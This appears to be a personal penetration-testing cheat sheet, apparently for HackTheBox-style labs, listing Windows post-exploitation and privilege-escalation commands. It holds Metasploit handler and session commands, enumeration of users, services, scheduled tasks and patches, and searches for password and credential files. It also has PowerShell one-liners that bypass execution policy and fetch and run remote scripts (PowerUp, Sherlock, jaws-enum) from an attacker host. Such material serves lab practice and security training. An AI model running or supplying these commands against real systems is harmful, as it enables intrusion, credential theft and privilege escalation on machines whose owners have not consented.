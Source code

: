 ## msfconsole
```c
search suggester

use exploit/multi/handler

sessions 1

set AutoRunScript post/windows/manage/smart_migrate
```

## windows postexploit enum general
+ in general: search credentials on the system or check for execs that run with elevated privileges and can be modified (scheduled tasks, drivers)
```
systeminfo
whoami /ALL
net users
net users <username>
```

## windows task services etc.
```c
tasklist /SVC
netsh firewall show state		                                                                    // and 'show config'
schtasks /query /fo LIST /v
driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object 'Display Name', 'Start Mode', Path		// not stable from crappy shell / powershell might cause issues here 
```
 
```c
sc query
sc qc <service-name> 
accesschk.exe -uws "Everyone" "C:\Program Files"

dir /s *pass* == *cred* == *vnc* == *.config*
findstr /si password *.xml *.ini *.txt

wmic qfe get Caption,Description,HotFixID,InstalledOn			// no new patches - KEXP pretty likely
```

## common windows privesc checks
function call might have to be put at the end of the file instead of starting it after semicolon if the execution fails
```c
powershell -nop -exec bypass -c "IEX(new-object net.webclient).downloadstring(\"http://10.10.10.1:8000/jaws-enum.ps1\")"

powershell -nop -exec bypass -c "IEX(new-object net.webclient).downloadstring(\"http://10.10.10.1:8000/PowerUp.ps1\");Invoke-AllChecks"		// get this version of PowerUp: /usr/lib/python3/dist-packages/cme/data/powersploit/Privesc/PowerUp.ps1

powershell -nop -exec bypass -c "IEX(new-object net.webclient).downloadstring(\"http://10.10.10.1:8000/Sherlock.ps1\");Find-AllVulns"

./windows-exploit-suggester.py --database 2020-09-20-mssb.xls --systeminfo ~/Documents/hackthebox/optimum/sysinfo
```
